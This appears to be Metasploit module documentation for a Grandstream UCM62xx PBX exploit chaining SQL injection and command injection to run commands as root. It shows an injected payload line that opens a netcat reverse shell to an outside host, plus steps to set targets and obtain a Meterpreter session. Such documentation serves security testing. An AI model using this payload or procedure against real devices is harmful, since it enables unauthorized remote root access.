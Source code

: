 ## Vulnerable Application

### Description

This module exploits an unauthenticated SQL injection vulnerability (CVE-2020-5722) and
a command injection vulnerability (technically, no assigned CVE but was inadvertently
patched at the same time as CVE-2019-10662) affecting the Grandstream UCM62xx IP PBX
series of devices. The vulnerabilities allow an unauthenticated remote attacker to
execute commands as `root`.

Exploitation happens in two stages:

1. An SQL injection during username lookup while executing the "Forgot Password" function.
2. A command injection that occurs after the user provided username is passed to a Python script
   via the shell. Like so:

```
  /bin/sh -c python /app/asterisk/var/lib/asterisk/scripts/sendMail.py \
    password '' `cat <<'TTsf7G0' z' or 1=1--`;`nc 10.0.0.3 4444 -e /bin/sh`;` TTsf7G0 `
```

This module affect UCM62xx versions before firmware version 1.0.19.20.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* https://firmware.grandstream.com/Release_UCM62xx_1.0.18.13.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use exploit/linux/http/grandstream_ucm62xx_sendemail_rce`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `set LPORT <port>`
* Do: `exploit`
* You should get a Meterpreter session.

## Targets

### 0

This targets the PBX with the `reverse_netcat_gaping` payload and returns a reverse shell.

### 1

This target obtains a meterpreter session using `wget`.

## Options
